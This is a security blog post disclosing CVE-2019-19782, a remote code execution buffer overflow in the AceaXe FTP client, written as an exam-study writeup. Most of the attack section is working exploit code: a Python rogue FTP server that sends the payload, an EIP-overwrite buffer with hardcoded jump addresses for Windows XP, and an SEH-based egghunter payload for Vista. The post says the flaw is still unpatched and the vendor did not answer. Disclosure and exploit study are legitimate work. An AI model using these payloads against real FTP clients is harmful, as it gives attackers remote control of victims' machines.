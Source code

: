 ```yaml
---
layout: post
title: "RCE via Buffer Overflow - AceaXeFTP"
categories: CVE_Research
---
```


**RCE via Buffer Overflow - AceaXeFTP**{: style="color: greenyellow"}

# Summary:
It's Possible to trigger a buffer overflow, in AceaXeFTP client, by hosting a malicious ftp server and sending malicious responses to the client.

# Bin info:
Name: AceaXe +
Homepage: http://www.labf.com/aceaxeplus/index.html

# Proof of Concept (PoC):

Studying to take the OSCE exam, i was simply fascinated by the Exploit dev topic, ASLR Bypass and SEH based exploits, was something that i needed to see in the internet jungle.
&nbsp;

Doing the exercises, i was able to successfuly exploit one of the examples. So, i thought "Yeah, it's time to find a really old software that i could run in a windows vista and try to find some AAAA shenanigans", and that's what i did, got first a windows xp and windows vista vm running and the AceaXe software bundle installed.
&nbsp;

At first, as i was really confortable with the basics of exploit dev, because of the OSCP background, i tried finding something in the windows xp, as it would not have ASLR nor DEP, so it would be easy to exploit. 
&nbsp;

As i was researching i found a lot of PoCs of ftp clients that got exploited by sending the response of the ftp commands with the exploit code. so, after some hours of trying a lot of gui overflows and file sizes oveflows, I finnally tried creating my own fake FTP server in python and sending the famous EHLO response with a giant string &afterwords, and it worked, EIP was finnaly overwritten by the AAAAs ! 
&nbsp;

# Finnally ! Time to exploit (winXP version):

The concept was easy. Create a simple socket listening to port 21, that sends the string after the client connects to it.

&nbsp;
{% highlight python %}


port = 21                   
s = socket.socket()
host = '0.0.0.0'              
try:
	s.bind((host, port))            
	s.listen(5)                     
	print ('[+] Ouvindo na porta 21.')
except:
	print ('[-] Problemas no socket, veja se a porta 21 ja esta sendo utilizada')
while True:
 	try:
	    conn, addr = s.accept()
	    print ('[+] Envindo o payload')     
	    conn.send(dadosenviados)
	    conn.close()
	    print ('[+] Payload enviado com sucesso')
	except:
		print ('[-] Tivemos um prolema, veja se tudo foi settado corretamente')
		
{% endhighlight %}
&nbsp;

So, after Creating a FTP server I was able to send the malicious Buffer, to exploit this vulnerability. and after doing all the steps needed to create the simple buffer overflow i was able to retrieve a Command shell on the machine
&nbsp;
By sending the following payload, i was able to take control of the EIP 

&nbsp;
{% highlight python %}

jmpesp = "\x96\x72\x01\x68"
lixo = "\x41"*2061
nopsled = "\x90"*20
eip = '\x6F\x4A\x08\x68'

payload = lixo+eip+jmpesp+nopsled+shellcode+nopsled     

dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;

So, nothing new there, just a classic default buffer overflow, but i was so happy that i have found it haha. It was time to exploit it in windows vista, to smack some windows ASLRs. 
&nbsp;
I exploited it using a SEH based Buffer overflow, and by using the egghunter technique.
&nbsp;
the Code used to exploit it was:

&nbsp;
{% highlight python %}


lixo1 = "\x41"*100
lixo2 = "D" * (9266-len(shellcode))
lixo3 = "C" * 576
nopsled = "\x90"*20


egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

egg = "w00tw00t"

nseh = "\x90\x90\xEB\x05" 
seh = "\xF8\x54\x01\x68" #POP POP RET 680154F8 in WCMDPA10.DLL

payload = lixo1 + egg + nopsled + shellcode + lixo2 + nseh + seh + egghunter + lixo3


dadosenviados = '220'+payload+'\r\n'

{% endhighlight %}
&nbsp;
The vulnerability is, by this time (dez/2019), working. 
&nbsp;
I tried contact with the vendor, but didn\`t received any response.
&nbsp;
And there are several other vulnerabilities to exploit in this software, so if you guys want some study material. this one is recommended.

#CVE

CVE-2019-19782

